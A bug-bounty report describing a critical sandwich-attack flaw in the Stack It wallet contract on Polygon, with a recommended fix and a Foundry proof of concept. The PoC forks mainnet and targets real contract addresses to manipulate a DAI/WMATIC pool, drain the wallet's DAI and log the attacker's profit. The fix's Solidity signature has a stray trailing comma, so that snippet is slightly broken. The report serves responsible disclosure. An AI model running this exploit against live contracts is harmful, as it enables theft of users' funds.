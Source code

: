 # Transaction sandwich attack on `_swapTokenForEther` function

- Protocol: Stack It
- Severity: Critical

## Target(s)

- [Stack](https://polygonscan.com/address/0x64c715481Eeb457DD86B06d07A504e48C8e2c8ed#code)

## Impact(s)

- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Bug Description

In the `_swapTokenForEther`, swap tokens to ether but the `amountInMax` is determined by the function `getAmountsIn` This leaves the contract vulnerable to a sandwich attack Prior to the `execute` function, the pair could be manipulated by making `getAmountsIn` high enough so that when the swap is made the wallet contract sells most or all of its balance at the pair at a high price, receiving very little ether In return

## Impact

All the funds of the wallets

## Risk Breakdown

Difficulty to Exploit: Medium

## Recommendation

Add a `amountInMax` parameter in `execute` function and don't calculate it off-chain:

```solidity
    function execute(
        address[] memory to,
        bytes[] memory data,
        uint256[] memory value,
        IERC20 token,
        address recipient,
        uint256 gas,
        uint256 amountInMax,
    ) external payable {
        require(IStack(stack).hasDefaultAdminRole(msg.sender) || msg.sender == owner, "Wallet::execute: FORBIDDEN");
        _execute(to, data, value);
        if (gas != 0) {
            _swapTokenForEther(token, recipient, gas, amountInMax);
        }
    }

    function _swapTokenForEther(IERC20 token, address recipient, uint256 amountOut, uint256 amountInMax) private {
        IUniswapV2Router02 router = IUniswapV2Router02(IStack(stack).router());
        address[] memory path = new address[](2);
        path[0] = address(token);
        path[1] = router.WETH();
        SafeERC20.safeApprove(token, address(router), amountInMax);
        router.swapTokensForExactETH(amountOut, amountInMax, path, recipient, block.timestamp);
    }
```

## References

- https://docs.uniswap.org/contracts/v2/reference/smart-contracts/router-02#swaptokensforexacteth

## Proof of Concept

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/StdUtils.sol" ;
import {IERC20} from "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";

contract MyTest is Test {
    Router router = Router(0xa5E0829CaCEd8fFDD4De3c43696c57F7D7A678ff);
    WalletImplementation wallet = WalletImplementation(0xEa8DA79510B8A380794a92aaE3B791fb4c5B3A79);
    IERC20 WMATIC = IERC20(0x0d500B1d8E8eF31E21C99d1Db9A6444d3ADf1270);
    IERC20 DAI = IERC20(0x8f3Cf7ad23Cd3CaDbD9735AFf958023239c6A063);

    uint256 gas = 1e18;
    uint256 walletBal = 1_000_000e18;

    address whaleDAI = 0xF977814e90dA44bFA03b6295A0616a897441aceC;

    function setUp() public {
        // Fork
        vm.selectFork(
            vm.createFork("https://polygon-rpc.com")
        );
        vm.rollFork(43_684_447);

        // Fund wallet with DAI
        vm.prank(whaleDAI);
        DAI.transfer(address(wallet), walletBal);
    }

    function testNormalExecute() public {
        execute();
    }

    function testSandwichWMATIC() public {
        // Approve router
        DAI.approve(address(router), type(uint256).max);
        WMATIC.approve(address(router), type(uint256).max);

        uint256 amount = 4000000 ether;

        // Fund this from a DAI whale
        vm.prank(whaleDAI);
        DAI.transfer(address(this), amount);

        // Swap to chan the reserves
        address[] memory path = new address[](2);
        path[0] = address(DAI);
        path[1] = address(WMATIC);

        console.log("Initial amount in:", router.getAmountsIn(gas, path)[0]);

        router.swapExactTokensForTokens(
            amount,
            0,
            path,
            address(this),
            block.timestamp
        );

        console.log("Post amount in:   ", router.getAmountsIn(gas, path)[0]);
        console.log();

        // At this time the `getAmountsIn` change
        // From:      777013493192305018
        // To:   98536749616130707137120

        // Run execute
        execute();

        // Swap back and return the DAI to DAI whale
        path[0] = address(WMATIC);
        path[1] = address(DAI);
        WMATIC.approve(address(router), type(uint256).max);
        router.swapTokensForExactTokens(
            amount,
            type(uint256).max,
            path,
            address(this),
            block.timestamp
        );

        DAI.transfer(address(whaleDAI), amount);

        // WMATIC profit
        console.log();
        console.log("Profit in WMATIC:  ", WMATIC.balanceOf(address(this)));
        console.log("Wallet loss in DAI:", walletBal - DAI.balanceOf(address(wallet)));
    }

    function execute() private {
        uint256 prevWalletBal = DAI.balanceOf(address(wallet));

        vm.prank(0xC95c349885d9f2f0a2B7EbC9E422B9eDA55Ea057);
        wallet.execute(
            new address[](0),
            new bytes[](0),
            new uint256[](0),
            DAI,
            address(this),
            gas
        );

        uint256 postWalletBal = DAI.balanceOf(address(wallet));

        console.log("prevWalletBal:", prevWalletBal);
        console.log("postWalletBal:", postWalletBal);
        console.log("Diff:         ", prevWalletBal - postWalletBal);
    }

    receive() external payable {}
}

interface Pair {
  function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
}

interface WalletImplementation {
  function execute(
    address[] memory to,
    bytes[] memory data,
    uint256[] memory value,
    IERC20 token,
    address recipient,
    uint256 gas
  ) external payable;
}

interface Router {
    function getAmountsIn(uint amountOut, address[] calldata path) external view returns (uint[] memory amounts);

    function swapExactTokensForTokens(
        uint amountIn,
        uint amountOutMin,
        address[] calldata path,
        address to,
        uint deadline
    ) external returns (uint[] memory amounts);

    function swapTokensForExactTokens(
        uint amountOut,
        uint amountInMax,
        address[] calldata path,
        address to,
        uint deadline
    ) external returns (uint[] memory amounts);
}
```